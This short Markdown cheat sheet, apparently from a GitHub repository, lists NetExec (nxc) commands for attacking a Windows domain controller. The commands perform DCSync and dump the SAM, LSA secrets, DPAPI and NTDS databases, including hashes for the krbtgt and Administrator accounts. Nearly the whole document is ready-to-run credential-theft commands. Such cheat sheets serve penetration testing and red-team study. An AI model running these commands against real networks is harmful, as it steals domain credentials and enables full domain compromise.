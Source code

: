 # Netexec

### 1) DCSync along with other dumps using ticket

    nxc smb dc01.domain.com --use-kcache --sam --lsa --dpapi -M ntdsutil

### 2) DCSync for a specific user account

    nxc smb dc01.domain.com -d domain -u username -p 'password' --ntds --user krbtgt
    nxc smb dc01.domain.com -d domain -u username -p 'password' --ntds --user Administrator
